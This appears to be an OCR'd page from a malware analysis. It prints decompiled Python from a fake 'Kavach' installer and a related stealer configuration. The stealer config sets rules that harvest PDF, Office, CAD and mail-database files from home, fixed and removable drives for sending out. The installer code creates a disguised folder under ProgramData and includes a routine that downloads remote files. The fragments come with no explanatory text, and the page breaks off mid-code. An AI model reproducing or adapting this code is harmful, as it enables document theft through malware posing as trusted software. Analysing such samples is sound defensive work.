 DBTABLES_INDEXES = {'file': ('queuepriority', 'unique: path, filename'), 'config': ('unique: key', )}
SYNC_RULES_CONFIG = {'HOME': r(" '*.pdf' or '*.txt' or '*.doc*' or '*.xls*' or '*.ppt*' or '*.mdb*' or '*.dwg' or '*.dxf' or '*.dbx' "), 
   'FIXED': r(" '*.pdf' or '*.doc*' or '*.xls*' or '*.ppt*' or '*.mdb*' or '*.dwg' or '*.dbx' "), 
   'REMOVABLE': r(" size < 5 mb if ('*.jpg' or '*.jpeg' or '*.avi') else (size < 100 mb and ('*.pdf' or '*.txt' or '*.doc*' or '*.xls*' or '*.ppt*' or '*.mdb*' or '*.dwg' or '*.dxf'))")}
OPTIMIZED_SEND_BLOCKSIZE = 256000
LOG_LEVEL = logging.WARN
logging.basicConfig(filename=LOGFILE, level=LOG_LEVEL)
if __name__ == '__main__':
    print globals()
 
Kavach fake installer - Python decompiled code
import os
from win32com.client import Dispatch
import platform
import time
#from tzlocal import get_localzone
import sys
from os.path import exists as file_exists
import urllib
import time
from time import sleep
import zipfile
#import win32com.client as win32
import win32com as win32
import subprocess
def is_os_64bit():
    return platform.machine().endswith('64')
    
def append_me(text):
    with open("c:\programdata\WUDFHost\logs.txt", "a") as myfile:
        myfile.write(text)
        
def write_me(text):
    if file_exists("c:\programdata\WUDFHost\logs.txt") is True:
        print('bab')
        pass
    else:
        print('damn')
        with open("c:\programdata\WUDFHost\logs.txt", "w") as myfile:
            myfile.write(text)
        
def create_dir(text):
    if os.path.exists(text) is False:
        os.mkdir(text)
        
def download_us(url,path):
    if os.path.exists(path) is False:
        urllib.urlretrieve(url,path)
    else:
        print("skipping")
        append_me("skipping")
        
